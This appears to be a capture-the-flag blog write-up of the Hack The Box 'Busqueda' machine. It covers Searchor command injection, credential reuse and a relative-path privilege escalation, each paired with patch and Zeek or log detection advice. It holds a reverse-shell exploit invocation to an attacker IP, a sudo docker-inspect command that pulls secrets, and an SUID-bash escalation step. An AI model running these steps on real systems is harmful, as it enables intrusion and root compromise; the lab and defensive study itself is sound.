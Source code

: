 ```yaml
---
title: Busqueda 
date: 2025-01-09 00:00:00 -0800
categories: [Patch the Box]
tags: [hack the box,linux,web-app,apache,zeek]
description: Review command injection vulnerability and subsequent patch in Python project. See methods to log and detect exploit.
---
```


### Overview

This is an easy Linux machine from Hack The Box where an exploit used for the Searchor Python library assists with initial access. I thought this was an interesting box because it required hunting around for passwords and applying them appropriately. Password misuse can be difficult to detect and highlights the need for secrets management and adherence to standards for prevention.

### Attack Tactics

#### Initial Access
I used this [Searchor exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection) which includes a brief explanation of the vulnerability. In the affected Searchor library it uses an `eval` function without input validation. As noted in the [documentation](https://docs.python.org/3/library/functions.html#eval) there is a warning that this may lead to vulnerabilities. The `exploit.sh` script provides the syntax to inject a reverse shell into the searcher.htb site's "query" parameter. The Bash reverse shell is executed by importing the Python `os` module, which in turn runs on the underlying Ubuntu OS. Base64 is used to avoid special characters in the reverse shell syntax from interfering with the Python syntax.

When the exploit is ran:
```
./exploit.sh http://searcher.htb 10.10.14.22 443
```
the curl POST request used for delivery can be seen in a packet capture:
![image](https://i.postimg.cc/k5NsKjdQ/busqueda-pcap.jpg){: width='1244' height='160'}

> __Prevent:__ The most straightforward way to prevent this attack is using an updated Searchor version.
{: .prompt-tip}
The [patch](https://github.com/ArjunSharda/Searchor/pull/130/files) on GithHub shows where the `eval` function is replaced with the Engine class directly. The same `search` function is used to get the returned url value. This will pass the user input as is rather than interpretting it as Python code.

> __Detect:__ A detection strategy could be used with Zeek, an open-source network monitoring tool, to log this activity.
{: .prompt-tip}
The Bro script listed [here](https://community.zeek.org/t/http-post-data/2256/4) (Bro being the former name for Zeek) provides an example option to log POST data. Using the same packet capture from above and running the Zeek/Bro script against it outputs an `http.log`:
```
zeek -C -r poc.sh.pcap http-extract-post.zeek
```
- `-C` tells Zeek to ignore invalid IP checksums
- `-r` reads a given packet capture

The built-in Zeek command line tool `zeek-cut` allows for filtering on specified column names:
```
cat http.log | zeek-cut id.resp_h id.resp_p method host uri user_agent post_body
```
![image](https://i.postimg.cc/02XwmZjL/busqueda-zeek.jpg){: width='1282' height='37'}

#### Credential Access

With low privilege access gained from the exploit, file system enumeration would lead to finding credentials for cody's account in the git config file for the web app. Checking for password re-use with `sudo -l` verifies cody's password is valid for the current low privilege `svc` account. The available sudo privileges also shows a custom Python script that can be ran:

```
User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

After uncovering what the script parameters are and referring to the Docker [documentation](https://docs.docker.com/reference/cli/docker/inspect/#get-a-subsection-in-json-format), a command can be ran to get sensitive config details referencing the first three digits of a running container name:
{% raw %}
```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{.Config}}' 960
```
{% endraw %}

Using a Key Vault for secrets storage may be easier said than done but would be one option to help mitigate clear-text credentials being stored insecurely.

> __Detect:__ A review of authentication logs could help identify suspicious sudo usage. 
{: .prompt-tip}
This may be more of a post forensics review but the timing and execution from an unusual path would likely be an outlying event:
![image](https://i.postimg.cc/25DQWCFX/busqueda-sudo.png){: width='1107' height='98'}

#### Privilege Escalation

A resulting password found in the Docker config details enables access to the source code for the gitea repository. This shows that `full-chechup.sh` is ran from a relative path:
![image](https://i.postimg.cc/mZwQHxtm/busqueda-gitea.jpg){: width='671' height='401'}

With this knowledge a custom `full-checkup.sh` can be written in a writable path. Runnning `/opt/scripts/system-checkup.py full-checkup` from that writable path the custom script can be used to escalate privileges. The script I ran enabled SUID permissions on a copy of `/bin/bash` and this was ran from `/var/tmp`.
> __Prevent:__ A simple way to prevent this would be to update `system-checkup.py` to run `full-checkup.sh` from an absolute path while ensuring permissions are controlled appropriately on the the Bash script. 
{: .prompt-tip}

### Further Reading
- [Logging Post Data with Apache and mod_security](https://darek.dk/posts/2021-11-28-logging-post-data-with-apache-and-mod_security/)
- [Zeek - About](https://zeek.org/about/)
- [Why storing secrets and passwords in Git is a bad idea](https://withblue.ink/2021/05/07/storing-secrets-and-passwords-in-git-is-bad.html)
- [Everybody Loves Bash Scripts. Including Attackers](https://isc.sans.edu/diary/Everybody+Loves+Bash+Scripts+Including+Attackers/31376)
